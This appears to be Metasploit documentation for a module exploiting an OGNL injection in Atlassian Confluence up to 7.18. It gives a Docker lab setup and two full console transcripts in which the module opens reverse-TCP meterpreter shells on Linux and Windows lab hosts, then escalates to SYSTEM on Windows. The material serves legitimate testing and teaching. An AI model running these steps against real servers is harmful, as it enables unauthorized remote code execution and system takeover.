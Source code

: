 ## Vulnerable Application
This module exploits an OGNL injection in Atlassian Confluence servers. A specially crafted URI can be used to evaluate
an OGNL expression resulting in OS command execution.

Confluence versions up to and including 7.18 are vulnerable to this OGNL injection flaw. For more complete information
on affected and fixed versions, see [CONFSERVER-79000][1].

### Setup

1. Create a new `docker-compose.yml` file with the contents below.
2. Startup the container using `docker-compose up`
3. Navigate to the HTTP service running on port 8090
4. Acquire and provide an evaluation license
5. When prompted, setup a standalone / non-clustered system
6. Configure the database settings
    1. Select "By connection string", then Database URL: `jdbc:postgresql://postgresql:5432/confdb`
    2. Username and password are both `confdb`
7. Setup takes a few minutes
8. When prompted, select "Empty Site"
9. Select "Manage users and groups within Confluence"
10. Create an account, it **will not** be needed for exploitation
11. Once setup has completed select "Start" and set a space name to something

#### Docker Compose File

```
version: '3'

services:
  postgresql:
    image: postgres:11
    environment:
      POSTGRES_DB: confdb
      POSTGRES_USER: confdb
      POSTGRES_PASSWORD: confdb
    ports:
      - '5432:5432'

  confluence-server:
    depends_on:
      - postgresql
    image: atlassian/confluence:7.13.0
    ports:
      - '8090:8090'
      - '8091:8091'
```

## Verification Steps

1. Follow the steps from the Setup section to create a test instance
2. Start msfconsole
3. Run: `use exploit/multi/http/atlassian_confluence_namespace_ognl_injection`
4. Set the `RHOSTS`, `PAYLOAD` and payload-related options
5. Run the module

## Options

## Scenarios

### Confluence 7.13.0 in [Docker]

```
msf exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set RHOSTS 192.168.159.100
RHOSTS => 192.168.159.100
msf exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set PAYLOAD cmd/unix/python/meterpreter/reverse_tcp
PAYLOAD => cmd/unix/python/meterpreter/reverse_tcp
msf exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > check
[+] 192.168.159.100:8090 - The target is vulnerable. Successfully tested OGNL injection.
msf exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[!] AutoCheck is disabled, proceeding with exploitation
[*] Executing cmd/unix/python/meterpreter/reverse_tcp (Unix Command)
[*] Sending stage (40132 bytes) to 192.168.159.100
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.100:42050) at 2022-06-03 17:14:41 -0400

meterpreter > getuid
Server username: confluence
meterpreter > sysinfo
Computer        : 5052c5eebf8a
OS              : Linux 5.15.0-35-generic #36-Ubuntu SMP Sat May 21 02:24:07 UTC 2022
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > 
```

### Confluence 7.17.2 on Windows Server 2019

```
msf > use exploit/multi/http/atlassian_confluence_namespace_ognl_injection
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set TARGET Windows\ Command 
TARGET => Windows Command
msf exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set PAYLOAD cmd/windows/powershell/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/windows/powershell/x64/meterpreter/reverse_tcp
msf exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully tested OGNL injection.
[*] Executing cmd/windows/powershell/x64/meterpreter/reverse_tcp (Windows Command)
[*] Sending stage (200774 bytes) to 192.168.159.10
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.10:49943) at 2022-06-15 17:22:07 -0400

meterpreter > sysinfo
Computer        : WIN-3MSP8K2LCGC
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 9
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter > getsystem
...got system via technique 4 (Named Pipe Impersonation (RPCSS variant)).
meterpreter > 
```

[1]: https://jira.atlassian.com/browse/CONFSERVER-79000?src=confmacro
